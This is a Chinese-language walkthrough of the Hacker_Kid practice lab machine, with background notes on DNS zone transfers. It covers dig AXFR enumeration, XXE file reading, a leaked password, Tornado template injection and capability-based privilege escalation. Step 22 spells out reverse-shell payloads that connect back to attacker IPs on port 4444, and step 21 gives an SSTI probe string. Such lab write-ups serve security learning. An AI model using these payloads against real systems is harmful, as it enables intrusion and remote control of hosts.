# Hacker_Kid 靶机学习记录

## 1. 粗略记录

1. 主机发现与扫描，开启的服务如下：
    

2. 53 端口开启 TCP 的一些解释：
    DNS 在进行**区域传输**的时候使用 TCP 协议，其它时候则使用 UDP 协议； 
    DNS 的规范规定了 2 种类型的 DNS 服务器，一个叫主 DNS 服务器，一个叫辅助 DNS 服务器。在一个区中主 DNS 服务器**从自己本机**的数据文件中读取该区的 DNS 数据信息，而辅助 DNS 服务器则**从区的主 DNS 服务器中**读取该区的 DNS 数据信息。当一个辅助 DNS 服务器启动时，它需要与主 DNS 服务器通信，并加载数据信息，这就叫做区传送（zone transfer）。 

    为什么既使用 TCP 又使用 UDP？ 
    首先了解一下 TCP 与 UDP 传送字节的长度限制： 
    UDP 报文的最大长度为 512 字节，而 TCP 则允许报文长度**超过** 512 字节。当 DNS 查询超过 512 字节时，协议的 TC 标志出现删除标志，这时则使用 TCP 发送。通常传统的 UDP 报文一般不会大于 512 字节。 

    区域传送时使用 TCP，主要有一下两点考虑： 

    1. 辅域名服务器会定时（一般时 3 小时）向主域名服务器进行查询以便了解数据是否有变动。如有变动，则会执行一次区域传送，进行数据同步。区域传送将使用 TCP 而不是 UDP，因为**数据同步传送的数据量**比一个请求和应答的数据量要多得多。 

    2. TCP是一种可靠的连接，保证了数据的准确性。 

    域名解析时使用 UDP 协议： 
    客户端向 DNS 服务器查询域名，一般返回的内容都不超过 512 字节，用 UDP 传输即可。不用经过 TCP 三次握手，这样 DNS 服务器负载更低，响应更快。虽然从理论上说，客户端也可以指定向 DNS 服务器查询的时候使用 TCP，但事实上，很多 DNS 服务器进行配置的时候，仅支持 UDP 查询包。

3. 主页有提示，根据 DNS 服务器等相关信息的联系，可以知道：
    
    作者提示 Linux 的 dig 命令。

4. 主页点了点，发现要去掉 `#` 才能看到一些新页面：
    

5. 搜索一番后，页面都没有可利用的点。

6. 回到 `dig` 上来，要用 `dig` 命令的话，就要有查询的域名，这里就是这台靶机的域名。

7. 查看了靶机的源码，通过一个注释发现有效信息：
    

8. 那就试试，出现新的提示：
    

9. 它说要 deep inside，那就用 burp 稍微 deep 一下吧，结果如下：
    
    21 的时候有新东西，看一看：
    
    提示了一个域名：`hackers.blackhat.local`。

10. 为了能获取信息，还是要进行本地域名和 ip 的绑定，修改 `/etc/hosts` 文件。

11. 根据域名的特征，前面的 `hackers` 更像一个主机名。`blackhat.local` 可能是 A 记录，那么 `hackers` 就可能是 CNAME。为了保险，添加如下映射：
      `192.168.0.102   hackers.blackhat.local
      192.168.0.102   blackhat.local`

12. DNS 的知识补充：
     区域和区域文件。**DNS 服务器中托管的域称为区域**。区域文件是人类可读的文本文件，其中包含不同类型的 DNS 记录。
     辅助域名解析。辅助 DNS 在与主 DNS 相同的网络中预配；它也可以是第三方 DNS 提供商。辅助 DNS 以只读格式托管主 DNS 中托管的区域的相同副本。主 DNS 中的区域文件通过**区域传输**同步到辅助 DNS。
     区域传输
     区域传输是一种机制，用于将托管区域的主 DNS 服务器的最新信息同步到辅助 DNS。区域传输包括两种类型：

      1. **全区域传输（AXFR）**：主 DNS 服务器通知辅助 DNS 服务器已对特定区域进行了更改，辅助 DNS 与主 DNS 联系以检查发生更改的区域的 SOA 记录中的序列号。如果主 DNS 上的序列号大于该区域的辅助 DNS 服务器的序列号，则**整个区域文件**将从主 DNS 服务器**复制到辅助** DNS 服务器。
      2. 增量区域传输（IXFR）：主 DNS 服务器通知辅助 DNS 服务器已对特定区域进行了更改，辅助 DNS 与主 DNS 联系以检查发生更改的区域的 SOA 记录中的序列号。如果主 DNS 上的序列号大于该区域的辅助 DNS 服务器的序列号，则辅助 DNS 服务器会将上次更改与现有版本进行比较，并仅从主 DNS 复制更改的记录。

13. 这里用 `dig` 命令尝试发起 axfr 全区域传输请求，获取到了所有 DNS 记录（这里是靶机的配置漏洞，因为 axfr 不应该对陌生人开放）：
      `dig axfr @ip domain`
     
      由发现不止一个域名，再次绑定然后再次 `dig`，最终大概如下：
      

14. 改好后，依次访问，发现新的页面：
     

15. 对这个新页面发个数据，抓个包看看：
     
     传输格式是 XML，同时经过测试，回显的内容与邮件输入的内容相同。考虑 XXE 注入了。

16. 根据 XXE 的漏洞格式，构造 payload：
     
      成功注入。

17. 查看能通过 SSH 登录的账号：root 和 saket。

18. 尝试爆破读取 saket 下的可能的文件内容，考虑有些内容可能直接读是读不出来的，需要封装器，因此对 payload 进行修改：
     
      有了新的发现，解码后内容如下：

      ```shell
      # ~/.bashrc: executed by bash(1) for non-login shells.
      # see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
      # for examples
      
      # If not running interactively, don't do anything
      case $- in
          *i*) ;;
            *) return;;
      esac
      
      # don't put duplicate lines or lines starting with space in the history.
      # See bash(1) for more options
      HISTCONTROL=ignoreboth
      
      # append to the history file, don't overwrite it
      shopt -s histappend
      
      # for setting history length see HISTSIZE and HISTFILESIZE in bash(1)
      HISTSIZE=1000
      HISTFILESIZE=2000
      
      # check the window size after each command and, if necessary,
      # update the values of LINES and COLUMNS.
      shopt -s checkwinsize
      
      # If set, the pattern "**" used in a pathname expansion context will
      # match all files and zero or more directories and subdirectories.
      #shopt -s globstar
      
      # make less more friendly for non-text input files, see lesspipe(1)
      [ -x /usr/bin/lesspipe ] && eval "$(SHELL=/bin/sh lesspipe)"
      
      # set variable identifying the chroot you work in (used in the prompt below)
      if [ -z "${debian_chroot:-}" ] && [ -r /etc/debian_chroot ]; then
          debian_chroot=$(cat /etc/debian_chroot)
      fi
      
      # set a fancy prompt (non-color, unless we know we "want" color)
      case "$TERM" in
          xterm-color|*-256color) color_prompt=yes;;
      esac
      
      # uncomment for a colored prompt, if the terminal has the capability; turned
      # off by default to not distract the user: the focus in a terminal window
      # should be on the output of commands, not on the prompt
      #force_color_prompt=yes
      
      if [ -n "$force_color_prompt" ]; then
          if [ -x /usr/bin/tput ] && tput setaf 1 >&/dev/null; then
      	# We have color support; assume it's compliant with Ecma-48
      	# (ISO/IEC-6429). (Lack of such support is extremely rare, and such
      	# a case would tend to support setf rather than setaf.)
      	color_prompt=yes
          else
      	color_prompt=
          fi
      fi
      
      if [ "$color_prompt" = yes ]; then
          PS1='${debian_chroot:+($debian_chroot)}\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '
      else
          PS1='${debian_chroot:+($debian_chroot)}\u@\h:\w\$ '
      fi
      unset color_prompt force_color_prompt
      
      # If this is an xterm set the title to user@host:dir
      case "$TERM" in
      xterm*|rxvt*)
          PS1="\[\e]0;${debian_chroot:+($debian_chroot)}\u@\h: \w\a\]$PS1"
          ;;
      *)
          ;;
      esac
      
      # enable color support of ls and also add handy aliases
      if [ -x /usr/bin/dircolors ]; then
          test -r ~/.dircolors && eval "$(dircolors -b ~/.dircolors)" || eval "$(dircolors -b)"
          alias ls='ls --color=auto'
          #alias dir='dir --color=auto'
          #alias vdir='vdir --color=auto'
      
          alias grep='grep --color=auto'
          alias fgrep='fgrep --color=auto'
          alias egrep='egrep --color=auto'
      fi
      
      # colored GCC warnings and errors
      #export GCC_COLORS='error=01;31:warning=01;35:note=01;36:caret=01;32:locus=01:quote=01'
      
      # some more ls aliases
      alias ll='ls -alF'
      alias la='ls -A'
      alias l='ls -CF'
      
      # Add an "alert" alias for long running commands.  Use like so:
      #   sleep 10; alert
      alias alert='notify-send --urgency=low -i "$([ $? = 0 ] && echo terminal || echo error)" "$(history|tail -n1|sed -e '\''s/^\s*[0-9]\+\s*//;s/[;&|]\s*alert$//'\'')"'
      
      # Alias definitions.
      # You may want to put all your additions into a separate file like
      # ~/.bash_aliases, instead of adding them here directly.
      # See /usr/share/doc/bash-doc/examples in the bash-doc package.
      
      if [ -f ~/.bash_aliases ]; then
          . ~/.bash_aliases
      fi
      
      # enable programmable completion features (you don't need to enable
      # this, if it's already enabled in /etc/bash.bashrc and /etc/profile
      # sources /etc/bash.bashrc).
      if ! shopt -oq posix; then
        if [ -f /usr/share/bash-completion/bash_completion ]; then
          . /usr/share/bash-completion/bash_completion
        elif [ -f /etc/bash_completion ]; then
          . /etc/bash_completion
        fi
      fi
      
      #Setting Password for running python app
      username="admin"
      password="Saket!#$%@!!"
      ```

     最后一行的提示，想到了 9999 端口 Tornado 框架的登录页面。

19. 试了一下，发现还不行，奇了怪了，admin 的密码是 saket，有点可疑，结果 换成 saket 就进入了（作者脑洞还挺大）：
      

20. 根据提示，要传一个“名字”给它，那就传一个 name：
      

21. 考虑到他是用了 Tornado 框架，因此 SSTI 注入是有可能的：

      > https://www.cnblogs.com/bmjoker/p/13508538.html

      参考别人的文章，尝试注入：
      
      成功！
      补充一个测试各种框架的 SSTI 的 Payload，只要报错就说明有利用点：
      `{{1+abcxyz}}${1+abcxyz}<%1+abcxyz%>[1+abcxyz]`

22. 输入反弹 Shell 的 payload（需要 url 编码后）：
      `{{os.system('bash -c "bash -i >& /dev/tcp/10.0.2.7/4444 0>&1"')}}`
      或者（用封号代替换行）：`{{s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.0.101', 4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i'])}}`
      有关 Tornado 的模板语法：

      > https://tornado-zh.readthedocs.io/zh/latest/guide/templates.html

23. 获取 Shell 后，再增加一下交互性：
      `python3 -c "import pty; pty.spawn('/bin/bash')"`

24. 通过 Capabilities 提权，详细内容如下：

      > https://www.cnblogs.com/f-carey/p/16026088.html
      >
      > https://man7.org/linux/man-pages/man7/capabilities.7.html

      查询不当 Capabilities 权限的命令：
      `/sbin/getcap -r / 2>/dev/null`
      突破口：
      
      提权教程（需要梯子)：

      > https://www.cnblogs.com/zlgxzswjy/p/15185591.html
      >
      > https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc

25. 根据教程，最终通过 NC 连接即可：

## 2. 总结

1. 针对 53 端口和 DNS 相关知识的补充。
2. XXE 漏洞
3. 遇到框架考虑 SSTI 模块注入
4. Capabilities 提权